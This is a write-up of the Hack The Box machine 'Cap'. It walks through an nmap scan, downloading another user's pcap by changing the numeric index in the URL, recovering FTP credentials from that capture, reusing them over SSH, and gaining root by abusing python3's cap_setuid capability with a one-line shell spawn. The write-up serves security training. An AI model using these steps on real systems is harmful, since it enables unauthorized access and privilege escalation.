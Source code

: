 ```yaml
---
description: Linux - Easy
---
```


# Cap

## Recon:

We'll start with a `nmap` scan.

```bash
nmap -p- -T4 --min-rate=1000 -sV -sC 10.10.10.245

Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-03 18:13 CEST
Nmap scan report for 10.10.10.245
Host is up (0.049s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 03 Oct 2021 16:19:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
......
```

## User:

So, we get a web server, ftp and ssh.  
Lets check out the webpage. It's a network monitoring dashboard, the side panel has three additional pages:  
Security Snapshot \(5 Second PCAP + Analysis\) - http://10.10.10.245/data/5  
IP Config - http://10.10.10.245/ip  
Network Status - http://10.10.10.245/netstat

The Security Snapshot page allows to download a pcap file of the last 5 seconds of network activity.  
For example, if we `ping` the machine 8 times we and request the data page at the start of the ping command we get the following.

![](../../.gitbook/assets/screenshot-7-.png)

It looks like each time the _Security Snapshot_ is requested the results are stored with an numerical index, lets checkout the first snapshot.  
[http://10.10.10.245/data/0](http://10.10.10.245/data/0)  
We get a 72 packets pcap. The protocol hierarchy tells us that its a FTP connection.  
Applying the appropriate filter we'll get the FTP credentials.

![](../../.gitbook/assets/capture%20%282%29.png)

The ftp server will show us nathan user home folder. Here we can get the user flag.

```bash
$ ftp 10.10.10.245
.....
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Oct 04 07:18 user.txt
ftp> get user.txt
```

If we try reusing the FTP credentials in SSH we'll find that they are valid.

## Root:

We have SSH access to the machine. Lets check out how the web app generates the pcap files, given that network capture usually requires elevated privileges.

```bash
$ cd /var/www/html
$ less app.py
......
def capture():

        get_lock()
        pcapid = get_appid()
        increment_appid()
        release_lock()

        path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
        ip = request.remote_addr
        # permissions issues with gunicorn and threads. hacky solution for now.
        #os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
        os.system(command)
......
```

Looks like Python3 has SUID flag, the `getcap` command will allow us to check this.  
We can modify the app.py command string to spawn a root shell.

```bash
$ which python3
/usr/bin/python3
$ ls -la /usr/bin/python3
lrwxrwxrwx 1 root root 9 Mar 13  2020 /usr/bin/python3 -> python3.8
$ getcap /usr/bin/python3.8 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
# whoami
root
```

